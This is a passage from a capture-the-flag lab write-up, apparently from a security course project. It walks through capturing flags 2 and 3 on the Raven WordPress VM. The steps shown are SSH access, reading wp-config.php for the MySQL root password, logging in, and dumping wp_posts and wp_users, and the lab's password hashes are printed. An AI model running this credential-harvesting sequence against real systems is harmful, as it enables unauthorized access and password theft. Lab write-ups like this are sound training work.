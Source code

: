 **Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
![Flag2](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/flag2.PNG)  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
![Captured Flag2](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/Capture_flag2.PNG)  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
![Flag3](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/flag3.PNG)  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  
![WP-CONFIG readout](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/cat_wp-config-php-1.PNG)  
![WP-CONFIG readout-2](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/cat_wp-config-php-2.PNG)  
![WP-CONFIG readout-3](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/cat_wp-config-php-3.PNG)  

- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  

- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
![Login to MySQL database](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/login_to_mysql.PNG)  

  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
![Flag 3 and 4 From wp_post](https://github.com/karma-786/Final-Project/blob/main/Final%20Project%20-%20KVP/Day%201%20%26%202/Target%201/flag3_%26_flag4.PNG)  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
|---:|------------|:----------------------------------:|---------------|-------------------|----------|:-------------------:|---------------------|------------:|----------------|
| 1  | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     | 0           | michael        |
| 2  | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     | 0           | Steven Seagull |  
